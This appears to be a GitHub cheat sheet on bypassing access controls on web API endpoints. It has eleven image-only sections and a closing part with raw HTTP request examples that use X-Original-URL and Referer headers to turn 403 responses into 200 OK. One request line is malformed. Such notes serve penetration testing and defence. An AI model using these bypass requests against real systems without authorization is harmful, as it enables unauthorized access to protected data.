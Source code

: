 

### Bypassing Endpoints — 01
![image](https://user-images.githubusercontent.com/37910997/154128013-9ec18efa-c35a-4cdb-a09e-7c4eeb954af0.png)

### Bypassing Endpoints — 02
![image](https://user-images.githubusercontent.com/37910997/154128074-f9740c31-1804-4c7e-b6e3-31cc18544219.png)

### Bypassing Endpoints — 03
![image](https://user-images.githubusercontent.com/37910997/154128145-66d20c3f-8dac-4244-825c-c1f6981f9b77.png)

### Bypassing Endpoints — 04
![image](https://user-images.githubusercontent.com/37910997/154128178-c28622dd-00c7-40e5-bfb1-9c4050051910.png)

### Bypassing Endpoints — 05
![image](https://user-images.githubusercontent.com/37910997/154128318-28af207d-6c9c-4e95-b5ce-21bc2a7f8bdc.png)


### Bypassing Endpoints — 06
![image](https://user-images.githubusercontent.com/37910997/154128331-8843d0e8-ebe4-4c23-b6a1-f1c648380c6f.png)


### Bypassing Endpoints — 07
![image](https://user-images.githubusercontent.com/37910997/154128347-8f5bc509-5632-4f15-b878-82fb1469bf41.png)


### Bypassing Endpoints — 08
![image](https://user-images.githubusercontent.com/37910997/154128359-3d69744e-dd50-47f0-9fd6-a51f70eef10e.png)


### Bypassing Endpoints — 09
![image](https://user-images.githubusercontent.com/37910997/154128373-d37c39e5-f90f-4667-a4c4-14ff9336810b.png)


### Bypassing Endpoints — 10
![image](https://user-images.githubusercontent.com/37910997/154128382-f06b6671-a3e1-421c-9a5a-e3452ad76cf4.png)


### Bypassing Endpoints — 11
![image](https://user-images.githubusercontent.com/37910997/154128397-3640e8a3-0c0b-4ce7-8f3a-a41f4111176f.png)


## Http Header based bypass:

- 1. X-Original-URL: /redact

### Example:

```
GET /api/getUser HTTP/1.1 → 403
Host: redact.com

GET /HTTP/1.1
Host: redact.com
X-Original-URL: /api/getUser → 200 OK
```


- 2. Referer: https://site.com/api/redact

### Example:

```
GET /api/getUser HTTP/1.1 → access denied
Host: redact.com

GET / HTTP/1.1
Host: redact.com
Referer: https://site.com/api/getUser → 200 OK

GET /api/getUser HTTP/1.1
Host: redact.com
Referer: https://site.com/api/getUser → 200 OK
```
